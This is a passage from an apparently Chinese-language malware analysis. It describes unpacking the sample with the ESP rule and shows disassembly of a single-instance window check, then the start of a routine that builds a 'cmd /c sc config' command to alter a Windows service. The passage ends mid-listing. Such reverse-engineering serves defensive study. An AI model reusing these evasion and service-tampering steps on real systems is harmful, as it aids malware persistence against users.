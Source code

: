 ![](img/cc46d11fc459a8f07a93605f9b52af12.jpg)

（2）、脱壳
![](img/dcb5dff301454bace710876a3281a94c.jpg)

 ESP 定律脱完壳，程序是 Microsoft Visual C++ 6.0 开发的。

  （二）病毒行为：
  （1）、先查找窗口类为"TTe.er.eabcds.ss"，如果没有找到，继续执行。如果找到，则退出自身进程。
  004021D2    68 6C124000     push    0040126C                         ; ASCII "TTe.er.eabcds.ss"
  004021D7    FF15 94104000   call    dword ptr [<&USER32.FindWindowA>>; USER32.FindWindowA
  004021DD    8985 E8FCFFFF   mov     dword ptr [ebp-318], eax
  004021E3    83BD E8FCFFFF 0>cmp     dword ptr [ebp-318], 0
  004021EA    74 5D           je      short 00402249

  00402249    E8 C2FCFFFF     call    00401F10

  F7 进 call

  00401F10    81EC 00010000   sub     esp, 100
  00401F16    B9 3F000000     mov     ecx, 3F
  00401F1B    33C0            xor     eax, eax
  00401F1D    8D5424 00       lea     edx, dword ptr [esp]
  00401F21    53              push    ebx
  00401F22    55              push    ebp
  00401F23    56              push    esi
  00401F24    57              push    edi
  00401F25    8D7C24 10       lea     edi, dword ptr [esp+10]
  00401F29    F3:AB           rep     stos dword ptr es:[edi]
  00401F2B    66:AB           stos    word ptr es:[edi]
  00401F2D    AA              stos    byte ptr es:[edi]
  00401F2E    83C9 FF         or      ecx, FFFFFFFF
  00401F31    BF B0104000     mov     edi, 004010B0                    ; ASCII "cmd /c sc config "
  00401F36    33C0            xor     eax, eax
  00401F38    F2:AE           repne   scas byte ptr es:[edi]
  00401F3A    F7D1            not     ecx
  00401F3C    2BF9            sub     edi, ecx